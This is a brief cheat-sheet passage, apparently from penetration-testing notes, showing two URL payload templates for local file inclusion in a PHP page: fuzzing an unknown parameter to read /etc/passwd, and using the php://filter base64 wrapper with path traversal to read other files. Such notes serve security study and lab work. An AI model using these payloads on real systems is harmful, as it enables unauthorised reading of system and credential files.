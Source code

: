 # Parameter fuzzing
```
# try to find a parameter that works to let attacker view file
hxxp://<MACHINE_IP>:<PORT>/file/to/fuzz/index.php?^FUZZ^=/etc/passwd
```
# Parameter fuzzing with php filter
```
# if just fuzzing doesn't work, use a filter such as base64 encoding/decoding
hxxp://<MACHINE_IP>:<PORT>/file/to/fuzz/index.php?^FUZZ^=php://filter/convert.base64-encode/resource=../file/to/access
```

